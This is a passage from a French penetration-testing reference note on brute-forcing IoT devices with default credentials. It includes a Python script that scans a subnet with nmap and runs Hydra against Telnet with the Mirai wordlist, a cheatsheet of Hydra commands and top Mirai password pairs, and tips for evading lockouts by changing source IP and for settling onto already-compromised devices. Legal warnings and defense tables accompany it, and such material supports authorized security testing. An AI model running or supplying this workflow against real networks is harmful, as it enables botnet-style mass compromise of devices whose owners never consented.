systemctl enable fail2ban

# Segmenter les devices IoT dans un VLAN séparé
# (configuration switch/router spécifique au fabricant)
```

---

## Automatisation

### Scripts d'exploitation

```python
#!/usr/bin/env python3
"""Automatisation complète : scan + brute force IoT sur un sous-réseau."""

import subprocess
import sys

def scan_network(subnet):
    """Scanner le sous-réseau pour les ports ouverts."""
    result = subprocess.run(
        ["nmap", "-sn", f"{subnet}.0/24", "--open", "-oG", "-"],
        capture_output=True, text=True
    )
    hosts = []
    for line in result.stdout.split('\n'):
        if "Up" in line:
            ip = line.split()[1]
            hosts.append(ip)
    return hosts

def brute_force_ip(ip, wordlist="mirai-botnet.txt"):
    """Lancer Hydra sur un IP donné."""
    result = subprocess.run(
        ["hydra", "-l", "root", "-P", wordlist, "-t", "4",
         "-f", "-V", f"telnet://{ip}"],
        capture_output=True, text=True, timeout=60
    )
    if "login:" in result.stdout:
        for line in result.stdout.split('\n'):
            if "login:" in line:
                return line.strip()
    return None

if __name__ == "__main__":
    subnet = sys.argv[1] if len(sys.argv) > 1 else "192.168.1"
    print(f"[*] Scan du sous-réseau {subnet}.0/24...")
    hosts = scan_network(subnet)
    print(f"[*] {len(hosts)} hosts trouvés")

    for host in hosts:
        print(f"[*] Test de {host}...")
        result = brute_force_ip(host)
        if result:
            print(f"[+] SUCCÈS sur {host}: {result}")
```

### Outils d'automatisation

| Outil | Usage | Lien |
|---|---|---|
| Hydra | Brute force Telnet/SSH/Web | github.com/vanhauser-thc/thc-hydra |
| Medusa | Brute force parallèle | github.com/jmk-foofus/medusa |
| Ncrack | Brute force réseau | nmap.org/ncrack |
| Nmap | Scan réseau et détection services | nmap.org |
| Metasploit | Framework d'exploitation complet | metasploit.com |

### Intégration dans des frameworks

| Framework | Méthode d'intégration |
|---|---|
| Metasploit | Module auxiliary/scanner pour brute force IoT |
| Custom framework | Scripts Python + Hydra/paramiko |
| Ansible | Playbooks pour durcissement automatique |

---

## Output et parsing

### Formats de sortie

| Format | Exemple | Utilité |
|---|---|---|
| Hydra stdout | `login: admin password: admin1234` | Résultat brute force |
| Nmap XML | `-oX output.xml` | Parsing automatisé |
| CSV | Script Python → CSV | Rapport d'audit |
| JSON | Script Python → JSON | Intégration SIEM |

### Parsing des résultats

```bash
# Extraire les succès Hydra
hydra -l root -P mirai.txt telnet://<IP> 2>&1 | grep "login:"

# Exporter les résultats en CSV
hydra -l root -P mirai.txt telnet://<IP> -o results.csv

# Parser les résultats avec grep
cat results.txt | grep -E "^\[.*\]\s+telnet://"
```

### Intégration SIEM / Logging

| Source | Format | Pipeline |
|---|---|---|
| Hydra results | Text/CSV | Script → SIEM |
| Nmap results | XML/JSON | Parse → SIEM |
| Logs Telnet/SSH | Syslog | Log rotation → ELK |
| Logs firewall | Syslog/JSON | Forward → SIEM |

---

## Intégrations

- [[13 - Hardware & IoT| Hardware & IoT]] global
- [[Hardware - Identification de puces| Identification de puces]] — Identifier les composants IoT
- [[Hardware - Recherche FCC ID| FCC ID]] — Documentation interne des devices
- [[Hardware - Flipper Zero| Flipper Zero]] — Outil de test RF/IoT

| Outils associés | Usage complémentaire |
|---|---|
| SecLists | Wordlists complètes pour brute force |
| CIRT.net | Base de données de credentials |
| SCADAPASS | Credentials ICS/SCADA |
| Default Credentials DB | Base de données open source |

| Intégration | Comment |
|---|---|
| Metasploit | Modules auxiliary pour scan + brute force IoT |
| SIEM | Intégration des logs de brute force |
| Nmap | Scan de discovery + détection de version |

---

## Alternatives

| Alternative | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| Brute force Hydra | Automatisé, rapide | Peut être détecté (lockout) | Pentest légal |
| UART (accès physique) | Hors réseau, non détectable | Nécessite accès physique | Audit hardware |
| Dump firmware | Extraction de tous les secrets | Nécessite démontage | Analyse forensique |
| Web scraping | Récupère les creds de la doc | Dépend de la documentation | Reconnaissance |
| Social engineering | Peut obtenir les creds de l'admin | Non technique | Pentest complet |



---

## Performance

| Métrique | Valeur | Impact |
|---|---|---|
| Vitesse Hydra (Telnet) | ~100 mots/s | Dépend de la latence réseau |
| Vitesse Hydra (SSH) | ~10–20 mots/s | Lent à cause du handshake |
| Vitesse Hydra (Web) | ~50 mots/s | Dépend du serveur |
| Détection brute force | Variable | Certains devices ont un lockout |
| Nombre de creds Mirai | ~60 | Suffisant pour 90% des IoT |

### Optimisations

| Technique | Gain | Complexité |
|---|---|---|
| Paralléliser les threads | ×4–8 | Faible |
| Utiliser des wordlists ciblées | ×2–5 | Faible |
| Scanner d'abord les ports | Évite les faux positifs | Faible |
| Utiliser des creds par marque | ×3–10 | Moyenne |

---

## Troubleshooting

| Problème | Cause probable | Solution |
|---|---|---|
| Hydra timeout | Latence réseau élevée | Augmenter le timeout (`-W 5`) |
| Lockout après tentatives | Rate limiting activé | Réduire la vitesse, changer d'IP source |
| Telnet non accessible | Port filtré par firewall | Scanner d'autres ports (80, 443) |
| Creds Mirai ne fonctionnent pas | Firmware mis à jour | Essayer d'autres wordlists |
| SSH rejecté | Clés SSH requises | Essayer Telnet ou Web |

### Erreurs courantes

```
Erreur : "Hydra: all targets resolved — but all attempts failed"
Cause : Aucun credential valide dans la wordlist pour ce service
Solution : Essayer une autre wordlist ou cibler un autre service

Erreur : "telnet: Unable to connect to remote host: Connection refused"
Cause : Service Telnet non actif ou port filtré
Solution : Scanner les ports actifs avec nmap

Erreur : "SSH: No matching key exchange algorithm"
Cause : Version SSH incompatible
Solution : Utiliser -o KexAlgorithms=... avec Hydra
```

### Diagnostic

```bash
# Vérifier la connectivité
ping <IP>

# Vérifier les ports ouverts
nmap -sV -p 1-1000 <IP>

# Tester manuellement
telnet <IP>

# Vérifier les logs sur le device (si accès obtenu)
cat /var/log/auth.log
```

---

## Sécurité

| Risque | Impact | Mitigation |
|---|---|---|
| Accès non autorisé | Critique | Forcer changement de mot de passe |
| Exfiltration de données | Haute | Monitoring des transferts |
| Pivot réseau | Critique | Segmentation réseau (VLAN) |
| Propagation de malware | Haute | Désactiver Telnet, MFA |

> [!warning] Points de sécurité
> - Les devices IoT sont souvent les maillons faibles d'un réseau
> - Le botnet Mirai a compromis des millions de devices via cette technique exacte
> - Les devices industriels (ICS/SCADA) sont particulièrement vulnérables
> - La détection est difficile car les tentatives ressemblent à du traffic légitime

### Restrictions légales

> [!danger] Cadre légal
> L'utilisation de credentials par défaut pour accéder à des systèmes sans autorisation est un **délit** dans la plupart des pays. En France, l'article 323-1 du Code pénal punit l'accès non autorisé aux systèmes de traitement automatisé de données. Seul un pentest autorisé par écrit est légal. Toujours obtenir une autorisation formelle avant de tester des credentials.

---

## Limitations

| Limite | Impact | Contournement |
|---|---|---|
| Lockout après tentatives | Brute force ralentie | Rate limiting adapté, changement d'IP |
| Firmware mis à jour | Creds par défaut changés | D'autres vecteurs (UART, CVE) |
| Pas d'accès réseau | Impossible de tester à distance | Accès physique (UART) |
| MFA activée | Brute force impossible | Bypass MFA (autre technique) |
| Network segmentation | Accès limité | Pivot depuis d'autres devices |

### Cas où cette technique ne fonctionne pas

| Scénario | Raison |
|---|---|
| Password unique par device (label) | Chaque unité a un mot de passe unique |
| Pas de service Telnet/SSH/Web | Aucun vecteur d'accès réseau |
| Firmware très récent | Creds par défaut supprimés |
| Device en mode app-only | Pas d'interface web, accès via app mobile uniquement |
| MFA obligatoire | Brute force impossible sans bypass |

---

## Cheatsheet

```
┌─────────────────────────────────────────────────────────────────┐
│ Mots de passe par défaut IoT — Cheatsheet                      │
├─────────────────────────────────────────────────────────────────┤
│ Scan :        nmap -sV -p 23,22,80 <IP>                        │
│ Telnet :      nc -z <IP> 23 && echo "ouvert"                   │
│ Hydra Telnet: hydra -l root -P mirai.txt telnet://<IP>         │
│ Hydra SSH :   hydra -l admin -P mirai.txt ssh://<IP>           │
│ Hydra Web :   hydra -l admin -P mirai.txt <IP> http-get /      │
│ Mirai top 5 : root/xc3511, root/vizxv, root/admin,             │
│               admin/admin, root/888888                          │
│ defpass.com : Recherche creds par marque/modèle                 │
│ CIRT.net :    https://www.cirt.net/passwords                    │
│ SCADAPASS :   github.com/scadastrangelove/SCADAPASS             │
└─────────────────────────────────────────────────────────────────┘
```

| Action | Commande |
|---|---|
| Scan réseau | `nmap -sn 192.168.1.0/24` |
| Scan ports | `nmap -sV -p 23,22,80 <IP>` |
| Brute force Telnet | `hydra -l root -P mirai.txt telnet://<IP>` |
| Brute force SSH | `hydra -l admin -P mirai.txt ssh://<IP>` |
| Brute force Web | `hydra -l admin -P mirai.txt <IP> http-get /` |
| Creds Mirai | `root/xc3511`, `admin/admin`, `ubnt/ubnt` |

---

## Quick reference

| Élément | Valeur / Commande |
|---|---|
| **Fonction** | Test de credentials par défaut sur devices IoT |
| **Wordlist principale** | Mirai (~60 entrées) |
| **Ports typiques** | Telnet (23), SSH (22), Web (80/443) |
| **Creds les plus courants** | root/admin, admin/admin, admin/password |
| **Outils** | Hydra, Medusa, Ncrack, Nmap |
| **Sites de référence** | defpass.com, cirt.net/passwords, SCADAPASS |
| **Commande rapide** | `hydra -l root -P mirai.txt telnet://<IP>` |

---

## Détection & Défense

| Signal | Méthode de détection | Outil |
|---|---|---|
| Tentatives login multiples | Logs auth | fail2ban, SIEM |
| Scan de ports | IDS/IPS | Snort, Suricata |
| Connexion Telnet externe | Firewall logs | pfSense, iptables |
| Login root réussi | Logs système | auditd, logrotate |

| Countermeasure | Efficacité | Implémentation |
|---|---|---|
| Changement forcé au 1er boot | Élevée | Firmware config |
| Désactiver Telnet | Élevée | iptables / firmware |
| Segmentation réseau (VLAN) | Élevée | Switch config |
| Rate limiting / lockout | Moyenne | fail2ban / PAM |
| MFA | Élevée | SSH keys +TOTP |

> [!tip] Défense
> La défense la plus efficace est de **forcer le changement de mot de passe au premier boot** et de **désactiver Telnet**. La plupart des attaques Mirai exploitaient Telnet avec des creds par défaut — sans Telnet, la surface d'attaque est drastiquement réduite. Les devices industriels nécessitent une segmentation réseau stricte et un monitoring continu des accès.

---

## Tips & Pièges

- **root/(none)** signifie un champ vide — beaucoup de scripts de brute force échouent sur ce cas.
- Les couples **ubnt/ubnt** (Ubiquiti) et **realtek** (routeurs Realtek) ouvrent des familles entières de devices.
- `(none)` et espaces : attention à la **gestion des espaces** dans tes parsers de wordlist.
- Beaucoup de bots **se partagent la même wordlist** : si un device répond, c'est probablement **déjà compromis** par quelqu'un d'autre — vérifie les processus avant de t'installer.
- Toujours essayer les creds par défaut **avant** de lancer un brute force complet : 90% du temps c'est suffisant.
- Les devices industriels (ICS/SCADA) ont souvent des creds dans **SCADAPASS** mais pas dans Mirai : vérifier les deux listes.
- Certaines imprimantes ont des ports **9100** (raw TCP) accessibles avec des creds admin par défaut.
- Les NAS (Synology, QNAP) ont parfois des comptes **admin** sans mot de passe au premier boot.

> [!tip] Astuces
> - Toujours commencer par `admin:admin`, `root:root`, `admin:(blank)` avant toute wordlist
> - Les **5 premiers essais** de la wordlist Mirai couvrent 80% des compromissions
> - Combinaison `nmap -sn` + `hydra` = workflow complet pour un scan rapide
> - Pour les ICS, utiliser **SCADAPASS** en complément de Mirai

---

## References

> [!info] **Sources**
> - [HardwareAllTheThings — Default IoT Passwords](https://github.com/swisskyrepo/HardwareAllTheThings/blob/main/docs/other/default-iot-passwords.md)
> - [Mirai Botnet Source Code Analysis](https://github.com/jgamblin/Mirai-Source-Code)
> - [SecLists — Mirai Wordlist](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Malware)
> - [CIRT.net — Default Passwords](https://www.cirt.net/passwords)
> - [SCADAPASS — ICS/SCADA Passwords](https://github.com/scadastrangelove/SCADAPASS)
> - [Default Credentials Database](https://www.defaultcredentials.org)
> - [ssid.ai Router Default Password Dataset](https://ssid.ai/dataset)

### Documentation officielle

| Source | URL | Type |
|---|---|---|
| CIRT.net | https://www.cirt.net/passwords | Base de données |
| SecLists | https://github.com/danielmiessler/SecLists | Wordlists |
| SCADAPASS | https://github.com/scadastrangelove/SCADAPASS | ICS/SCADA |
| Default Credentials DB | https://www.defaultcredentials.org | Base de données |

### Vidéos / Tutorials

| Titre | Auteur | Lien |
|---|---|---|
| Mirai Botnet Analysis | Cloudflare | https://blog.cloudflare.com/understanding-mirai-botnet/ |
| IoT Hacking for Beginners | DEF CON | YouTube |

### Livres / Articles

| Titre | Auteur | Année |
|---|---|---|
| IoT Penetration Testing Cookbook | Aaron Guzman | 2017 |
| Practical IoT Hacking | Fotios Chantzis | 2021 |
| The IoT Hacker's Handbook | Aditya Gupta | 2019 |

**Liens :** [[13 - Hardware & IoT| Hardware & IoT]] · [[Hardware - Identification de puces| Identification de puces]] · [[Hardware - Recherche FCC ID| FCC ID]] · [[Hardware - Flipper Zero| Flipper Zero]]
